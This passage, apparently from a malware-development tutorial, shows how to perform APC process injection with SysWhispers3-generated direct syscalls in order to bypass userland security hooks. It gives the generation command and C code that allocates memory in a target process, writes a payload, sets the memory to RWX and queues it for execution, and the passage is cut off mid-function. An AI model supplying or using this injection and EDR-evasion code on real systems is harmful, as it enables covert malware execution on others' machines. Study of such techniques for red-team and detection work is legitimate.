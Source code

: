 The implementation here uses SysWhispers3 to bypass userland hooks via direct syscalls. The following command is used to generate the required files for this implementation.


```
python syswhispers.py -a x64 -c msvc -m jumper_randomized -f NtAllocateVirtualMemory,NtProtectVirtualMemory,NtWriteVirtualMemory,NtQueueApcThread -o SysWhispers -v

```
Three files are generated: `SysWhispers.h`, `SysWhispers.c` and `SysWhispers-asm.x64.asm`. The next step is to import these files into Visual Studio as demonstrated previously. `ApcInjectionViaSyscalls` is shown below.


```
BOOL ApcInjectionViaSyscalls(IN HANDLE hProcess, IN HANDLE hThread, IN PVOID pPayload, IN SIZE_T sPayloadSize) {

	Syscall     St                      = { 0 };
	NTSTATUS    STATUS                  = NULL;
	PVOID       pAddress                = NULL;
	ULONG       uOldProtection          = NULL;
	SIZE_T      sSize                   = sPayloadSize,
	            sNumberOfBytesWritten   = NULL;

	// Allocating memory
	if ((STATUS = NtAllocateVirtualMemory(hProcess, &pAddress, 0, &sSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE)) != 0) {
		printf("[!] NtAllocateVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	printf("[+] Allocated Address At : 0x%p Of Size : %d \n", pAddress, sSize);

//--------------------------------------------------------------------------

	// Writing the payload
	printf("[#] Press <Enter> To Write The Payload ... ");
	getchar();
	printf("\t[i] Writing Payload Of Size %d ... ", sPayloadSize);
	if ((STATUS = NtWriteVirtualMemory(hProcess, pAddress, pPayload, sPayloadSize, &sNumberOfBytesWritten)) != 0 || sNumberOfBytesWritten != sPayloadSize) {
		printf("[!] pNtWriteVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
		printf("[i] Bytes Written : %d of %d \n", sNumberOfBytesWritten, sPayloadSize);
		return FALSE;
	}
	printf("[+] DONE \n");


//--------------------------------------------------------------------------

	// Changing the memory's permissions to RWX
	if ((STATUS = NtProtectVirtualMemory(hProcess, &pAddress, &sPayloadSize, PAGE_EXECUTE_READWRITE, &uOldProtection)) != 0) {
		printf("[!] NtProtectVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

//--------------------------------------------------------------------------

	// Executing the payload via NtQueueApcThread

	printf("[#] Press <Enter> To Run The Payload ... ");
	getchar();
	printf("\t[i] Running Payload At 0x%p Using Thread Of Id : %d ... ", pAddress, GetThreadId(hThread));
	if ((STATUS = NtQueueApcThread(hThread, pAddress, NULL, NULL, NULL)) != 0) {
```
